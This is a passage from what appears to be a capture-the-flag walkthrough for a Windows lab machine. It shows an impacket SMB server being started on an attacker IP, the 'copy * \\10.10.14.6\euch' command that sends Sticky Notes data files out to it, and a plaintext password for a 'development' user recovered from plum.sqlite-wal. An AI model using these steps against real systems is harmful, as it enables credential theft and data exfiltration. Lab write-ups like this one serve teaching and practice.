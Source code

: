 We found a directory!
```
C:\users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\
```
It contains more folders, the \LocalState\ seems interesting!
<img src="state.png">
Let's copy these files to our machine!
Fist we start our smbserver

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -ip 10.10.14.6 -smb2support euch .
```
and copy these files!

```
copy * \\10.10.14.6\euch
```
<img src="smb.png">

Let's check the files! the only interesting file we need is `plum.sqlite-wal`

It contains  the creds for the development user
```
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g

```

